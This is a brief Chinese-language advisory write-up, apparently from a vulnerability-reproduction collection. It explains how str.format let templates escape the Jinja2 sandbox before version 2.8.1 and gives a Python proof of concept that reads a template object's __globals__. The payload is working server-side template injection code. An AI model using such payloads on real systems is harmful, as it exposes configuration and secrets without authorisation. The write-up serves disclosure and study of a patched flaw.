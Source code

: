 参考：
	- https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html#jinja-281
	- https://www.palletsprojects.com/blog/jinja-281-released/

（Jinja2.8.1）

Jinja2在防御SSTI（模板注入漏洞）时引入了沙盒机制，也就是说即使模板引擎被用户所控制，其也无法绕过沙盒执行代码或者获取敏感信息。

但由于format带来的字符串格式化漏洞，导致在Jinja2.8.1以前的沙盒可以被绕过，进而读取到配置文件等敏感信息。

poc
```python
from jinja2.sandbox import SandboxedEnvironment
env = SandboxedEnvironment()
class User(object):
	def __init__(self, name):
		self.name = name
t = env.from_string('{{ "{0.__class__.__init__.__globals__}".format(user) }}')
t.render(user=User('joe'))
```
成功读取到当前环境所有变量__globals__